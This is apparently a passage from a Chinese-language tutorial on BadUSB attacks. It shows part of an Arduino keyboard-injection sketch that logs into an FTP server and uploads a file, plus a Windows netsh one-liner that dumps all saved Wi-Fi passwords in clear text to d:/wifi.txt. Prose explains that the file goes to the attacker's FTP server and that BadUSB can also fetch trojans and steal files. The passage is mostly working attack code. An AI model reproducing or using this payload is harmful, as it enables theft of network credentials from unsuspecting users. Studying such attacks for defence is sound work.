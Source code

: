 ```

delay(500);

Keyboard.print(F("password"));

Keyboard.press(KEY_RETURN);

Keyboard.release(KEY_RETURN);

delay(500);

Keyboard.print(F("put d:/wifi.txt"));

Keyboard.press(KEY_RETURN);

Keyboard.release(KEY_RETURN);

delay(500);

Keyboard.print(F("bye"));

Keyboard.press(KEY_RETURN);

Keyboard.release(KEY_RETURN);

delay(500);

Keyboard.print(F("exit"));

Keyboard.press(KEY_RETURN);

Keyboard.release(KEY_RETURN);

Keyboard.end();

`}`

void loop()

`{``}`
```

介绍下以上代码的执行过程以及结果，首先调用运行框调取命令框，输入以下代码。

```
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear &gt;&gt;d:/wifi.txt
```

这段代码主要的目的是获取保存在电脑中的wifi信息并保存为wifi.txt文本。接下来再通过命令行下利用FTP上传这个文件到指定的FTP服务器，完成密码的获取上传。

通过上面的两个demo可以发现，BadUSB可以实现理论上键盘上可执行的任何操作，比如远程下载木马，获取目标权限，文件窃取等。上面的demo是针对Windows进行攻击，BadUSB除了可对Windows有效，还对MacOS，Linux等均有效。
